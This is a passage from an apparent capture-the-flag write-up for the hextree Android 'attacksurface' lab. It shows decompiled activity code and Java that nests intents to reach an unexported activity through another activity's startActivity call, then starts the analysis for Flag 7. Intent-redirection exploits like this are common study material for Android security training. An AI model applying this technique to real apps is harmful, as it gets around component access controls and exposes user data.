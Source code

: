 so we want something that has startActivity() in it andv we can call it so that when supplied with intent it will go from activity "A" into activity "B" which we cant call directly

**_Activity 5 have the right requirement_**
```java
if (this.nextIntent.getStringExtra("reason").equals("back")) {
            this.f.addTag(this.nextIntent.getStringExtra("reason"));
            success(this);
        } else if (this.nextIntent.getStringExtra("reason").equals("next")) {
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
```

#### Solution

we will use the previous solution but changing the extra text in intent3 from `back` -> `next`, and class we are calling and give it the required permissions  `.FLAG_GRANT_READ_URI_PERMISSION`

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag6Activity"));  
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);  
intent3.putExtra("reason","next");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 7
#### Code analysis 
```java
 public void onCreate(Bundle bundle) {
        String action = getIntent().getAction();
        if (action == null || !action.equals("OPEN")) {
            return;
        }
        this.f.addTag("OPEN");
    }
    public void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        String action = intent.getAction();
        if (action == null || !action.equals("REOPEN")) {
            return;
        }
        this.f.addTag("REOPEN");
        success(this);
    }
```
